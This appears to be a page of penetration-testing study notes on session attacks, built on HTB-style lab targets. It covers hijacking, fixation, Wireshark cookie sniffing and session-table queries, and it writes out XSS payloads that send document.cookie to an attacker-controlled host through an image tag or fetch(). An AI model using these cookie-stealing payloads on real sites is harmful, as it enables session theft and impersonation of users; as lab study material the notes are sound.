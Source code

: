 # 📉 Session Attacks 1

## Session Hijacking

Here the attacker takes advantage of insecure session identifiers, finds a way to obtain them, and uses them to authenticate to the server and impersonate the victim

Let's imagine the following account of some target.

<figure><img src="../../../.gitbook/assets/image (1361).png" alt=""><figcaption></figcaption></figure>

We can see cookie named `auth-session`

As an attacker we somehow got access to the cookie's value, we can go in a new private window, navigate to the website and replace the current auth-session cookie's value with the one we got. Normally if we reload the page, we will be logged in as the target

## Session Fixation

Session Fixation occurs when an attacker can fixate a (valid) session identifier.

Here are the 3 stages of a Session Fixation attacks:

**Stage 1: Attacker manages to obtain a valid session identifier**

**Stage 2: Attacker manages to fixate a valid session identifier**

**Stage 3: Attacker tricks the victim into establishing a session using the abovementioned session identifier**

Let's got through the 3 steps more in depth:

**Part 1: Session fixation identification**

We will have some random URL with some token value

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN VALUE>
```

<figure><img src="../../../.gitbook/assets/image (1362).png" alt=""><figcaption></figcaption></figure>

So we see the cookie is the same as the token value

**Part 2: Session fixation exploitation attempt**

Let's open a new private windows and add our own token value, we will end up navigating to ->

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=IControlThisCookie
```

&#x20;

<figure><img src="../../../.gitbook/assets/image (1363).png" alt=""><figcaption><p>same value once again</p></figcaption></figure>

We could send a URL similar to the above to a victim. If the victim logs into the application, we could easily hijack their session since the session identifier is already known (we fixated it).

Another way of looking for some fixation problems, let's say we got a cookie named `PHPSESSID, we could try http://insecure.exampleapp.com/login?PHPSESSID=AttackerSpecifiedCookieValue` and see if the specified cookie value is propagated to the application

## Obtaining Session Identifiers without User Interaction

We can obtain obtain session identifiers two main ways:

* without user interaction
* requiring user interaction

### via Traffic Sniffing

Traffic sniffing requires the attacker and the victim to be on the same local network. Then and only then can HTTP traffic be inspected by the attacker. It is impossible for an attacker to perform traffic sniffing remotely.

Let's go on our target website:

<figure><img src="../../../.gitbook/assets/image (1364).png" alt=""><figcaption><p>note <code>auth-session,</code> probably as a session identifier</p></figcaption></figure>

Now, we'll start wireshark on the local network:

```shell-session
sudo -E wireshark
```

Right-click "tun0" and then click "Start capture"

Now in a rivate window, we login to the app using knwon credentials with an account we created and look at the traffic:

<figure><img src="../../../.gitbook/assets/image (1365).png" alt=""><figcaption></figcaption></figure>

We don't forget the http filter, then we will need to filter everything out for any `auth-session` cookies with `Edit` -> `Find Packet`

<figure><img src="../../../.gitbook/assets/image (1366).png" alt=""><figcaption></figcaption></figure>

and when we find the packet we need we can copy the value like this:

<figure><img src="../../../.gitbook/assets/image (1367).png" alt=""><figcaption></figcaption></figure>

**Part 4: Hijack the victim's session**

and now if we go back to the not private window and change our current cookie value with the one we obtained through wireshark (remember to remove the `auth-session=` part)&#x20;

<figure><img src="../../../.gitbook/assets/image (1368).png" alt=""><figcaption></figcaption></figure>

And if we refresh we are now loggid in as the victim

### Post-Exploitation (Database Access)

When we have access to a database via, for example, SQL injection or identified credentials, we should always check for any stored user sessions.

<figure><img src="../../../.gitbook/assets/image (1369).png" alt=""><figcaption></figcaption></figure>

We can try to crack the hashes, but we also see the interesting session table ->

```sql
select * from all_sessions;
select * from all_sessions where id=3;
```

<figure><img src="../../../.gitbook/assets/image (1370).png" alt=""><figcaption><p>We could now authenticate as the user "Developer."</p></figcaption></figure>

## Cross-Site Scripting (XSS)

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:

* Session cookies should be carried in all HTTP requests
* Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

First let's create an account to look at functionalities ->

To craft our payload, it's good to use handlers like `onload` or `onerror` since they fire up automatically, if they're blocked, we can  use something like `onmouseover`.

```javascript
"><img src=x onerror=prompt(document.domain)>
```

`document.domain` to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment.

and in the remaining fields, we can put the following:

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When we save we gor nothing poping on our screen, that's because we need to call the code with another functionality ->&#x20;

When we click on share:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Now we need to check if _HTTPOnly_ is off

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

To steal a cookie in real world we can use [XSSHunter](https://xsshunter.com), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or webhook.site

The payload would look somehing like:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

{% content-ref url="../../../red-team/technical-knowledge/web-application/xss-injection.md" %}
[xss-injection.md](../../../red-team/technical-knowledge/web-application/xss-injection.md)
{% endcontent-ref %}

Now let's say the victim clicks on our link, in our webhook or anything else, we should see our cookie pop and can use it to hijack session

### cookies via XSS (Netcat edition)

First we place the below payload in the _Country_ field of Ela Stienen's profile and click "Save."

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Then we launch netcat on port 8000

now we simulate what the victim would do and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com` since we control this public profile hosting a cookie-stealing payload

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

##

